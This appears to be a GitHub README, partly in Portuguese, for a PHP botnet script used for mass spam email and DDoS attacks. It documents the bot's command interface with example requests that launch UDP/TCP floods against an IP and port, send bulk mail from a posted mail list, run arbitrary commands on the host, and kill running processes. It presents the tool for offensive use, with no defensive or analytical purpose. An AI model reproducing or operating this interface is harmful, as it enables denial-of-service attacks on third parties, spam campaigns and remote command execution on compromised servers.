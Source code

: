 # PHP Bot (DDoS/Spam)

Bot em PHP utilizado para enviar emails em massa e realizar ataques DDoS (Negação de Serviço).

###Functions...
 DDos, Spam (Perl e PHP), Run command, Kill Perl running.

###Functions details...
 - DDoS:
        command = ddos.
        flag = Attack method: udp, tcp.
        data = IP:PORT.

        phpBot.php?hash=admin&command=ddos&flag=udp&data=111.111.111.111:22

 - Spam:
 
        command = spam, phpspam (spam via mail() function).
        flag = 1 é padrão para spam normal. 
              Para phpspam, 1 = Usa função system() para rodar enviador, 
              2 = Utiliza todas as funções (Envia repetido).
        data = null (default).

        POST data:
          maillist=...&subject=...&from=...&message=...
         
          phpBot.php?hash=admin&command=spam&flag=1&data=null

 - Run file:
          command = run.
          flag = 1 (default).
          data = Command to run

          phpBot.php?hash=admin&command=run&flag=1&data=dir.exe

 - Kill dependencies:
 
          command = kill.
          flag = 1 (default).
          data = null (default)

          phpBot.php?hash=admin&command=kill&flag=1&data=null

